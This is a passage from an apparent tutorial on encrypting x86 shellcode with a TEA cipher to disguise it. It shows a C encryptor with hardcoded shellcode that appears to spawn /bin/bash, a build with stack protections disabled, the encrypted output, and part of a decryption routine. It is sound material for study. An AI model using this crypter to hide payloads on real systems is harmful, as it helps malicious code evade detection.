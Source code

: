 ```c
    printf("\n");
}


int main()
{
    // 128 bits encrypt key (32 * 4 bits)
    // A PRETTY BAD IDEA TO HARDCODE IT IN THE CODE
    uint32_t key[4] = {0xAAAAAAAA, 0xBBBBBBBB, 0xCCCCCCCC, 0xDDDDDDDD};

    // Shellcode to encrypt
    unsigned char shellcode[] = "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68";

    // Encrypt the shellcode
    encryptBlocks(shellcode, key);

    // Print the encrypted shellcode
    printShellcode(shellcode);

    return 0;
}
```

### Let's compile and run it:
```console
kali@kali:/tmp$ gcc encrypt_shellcode.c -o encrypt_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./encrypt_shellcode 
Shellcode length = 40
\x38\xd1\x0d\x2b\xdf\xc6\xf2\x1a\x97\x2b\xfc\x72\x5e\xcf\x67\x39\x10\xa7\xd4\x41\x29\x0a\x8e\xf6\xe2\xcb\x7e\x5e\x20\xff\x86\x71\x81\xf2\xca\x0b\x7d\x1a\x3c\xff
kali@kali:/tmp$
```


## 5) The decryption routine:
Below is the C code used to decrypt the shellcode. 

All the details needed to understand this C code can be found by reading the commentaries:
```c
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>



/* This function is used to decrypt a message. The message is divided in blocks of 64 bits and then decrypt with a 128 bits key.
:param uint32_t v[2] -> the message to decrypt:
:param uint32_t k[4] -> the key used to decrypt:
*/
void decrypt (uint32_t v[2], uint32_t k[4]) 
{

    uint32_t v0=v[0], v1=v[1], sum=0xC6EF3720, i;  // set up 

    uint32_t delta=0x9e3779b9;                     // a key schedule constant 

    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   // cache key //

    for (i=0; i<32; i++) {                         // basic cycle start 
        v1 -= ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);
        v0 -= ((v1<<4) + k0) ^ (v1 + sum) ^ ((v1>>5) + k1);
```